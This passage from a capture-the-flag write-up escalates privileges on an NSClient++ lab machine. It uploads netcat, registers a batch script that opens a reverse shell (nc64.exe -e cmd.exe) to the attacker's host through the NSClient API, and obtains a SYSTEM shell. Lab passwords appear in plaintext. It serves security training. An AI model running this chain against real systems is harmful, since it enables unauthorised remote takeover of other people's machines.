 Now we can access to `https://10.10.10.184:8443` using web browser.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-12-13/2020-12-13-10-43-15.png)

We already know the password `ew2x6SsGTxjRwXOT`.<br>
After logged in, we see the following metrics.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-12-13/2020-12-13-21-45-04.png)

To create an external script, we can go `Settings` -> `External Scripts` -> `Scripts` -> `+ Add new`.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-12-13/2020-12-13-10-51-49.png)

Then, we have this console.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-12-13/2020-12-13-10-55-01.png)

Before adding an external script, upload `nc64.exe` which can be downloaded from here.<br>
We use `scp` to transfer these files since we already have the credential.
```
root@kali:~# scp ./nc64.exe nadine@10.10.10.184:C:/temp/nc64.exe
nadine@10.10.10.184's password: # L1k3B1gBut7s@W0rk
nc64.exe                                      100%   44KB  54.4KB/s   00:00
```

After that, create the following script to be executed by NSClient.
```
root@kali:~# cat rshell.bat 
@echo off
C:\Temp\nc64.exe 10.10.14.42 4443 -e cmd.exe
```

Using API, register the previous batch script.
```
root@kali:~# curl -s -k -u admin -XPUT https://localhost:8443/api/v1/scripts/ext/scripts/rshell.bat --data-binary @rshell.bat
Enter host password for user 'admin':
Added rshell as scripts\rshell.bat
```

Launch `netcat` listener on port 4443.
```
root@kali:~# nc -nlvp 4443
Listening on 0.0.0.0 4443
```

To run the uploaded script manually, execute the following command.<br>
We can run the external script using the API.
```
root@kali:~# curl -k -u "admin:ew2x6SsGTxjRwXOT" https://127.0.0.1:8443/api/v1/queries/rshell/commands/execute
{"command":"rshell","lines":[{"message":"Command rshell didn't terminate within the timeout period 60s","perf":{}}],"result":3}
```

Now we have a reverse shell as `root`.
```
root@kali:~# nc -nlvp 4443
Listening on 0.0.0.0 4443
Connection received on 10.10.10.184 53308
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```
